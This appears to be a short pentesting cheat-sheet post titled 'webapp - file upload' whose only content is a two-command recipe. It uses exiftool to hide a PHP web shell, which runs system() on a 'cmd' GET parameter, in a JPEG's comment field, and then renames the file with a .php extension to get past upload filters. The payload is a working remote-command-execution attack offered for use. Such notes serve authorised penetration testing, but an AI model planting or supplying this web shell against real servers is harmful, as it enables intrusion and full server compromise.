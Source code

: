 ```yaml
---
layout: post
title:  "webapp - file upload"
date:   2022-01-01
categories: web
---
```



## Exiftool php in image

```bash

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' 1.jpg

mv 1.jpg 1.jpg.php

```